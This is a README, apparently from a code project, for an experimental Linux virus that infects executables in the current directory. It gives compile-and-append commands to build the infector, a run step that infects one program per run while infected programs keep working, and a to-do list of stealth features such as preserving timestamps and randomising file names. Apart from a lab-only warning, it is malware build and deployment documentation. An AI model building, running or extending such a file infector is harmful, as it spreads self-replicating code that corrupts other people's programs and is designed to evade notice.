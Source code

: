 This is a very simple EXPERIMENTAL virus program that runs in Linux.

This is a DANGEROUS experiment - Use only in a secured lab setup!

#### Bootstrap procedure

````
g++ -O -Wall -std=c++11 hi.cpp -o hi
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
ls -l v_tmp
````

Make sure the size of `v_tmp` is `MYSIZE` in the `v.cpp` source. Do another

````
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
````

#### Start

Run the virus bootstrap executable in a directory that contains other executables:

````
./v
````

This will infect one executable per run, until all files are infected.

* Infected files run like normal. The orginal code will be executed by the virus code
* Only executables in the current directory are infected
* Infected programs do no more evil than only infecting other programs

#### To Do

* Use the original file's time-stamp for the infected file
* Use random file names for the `vir` and `exe` files
* Add a fixed list of programs that will be attacked
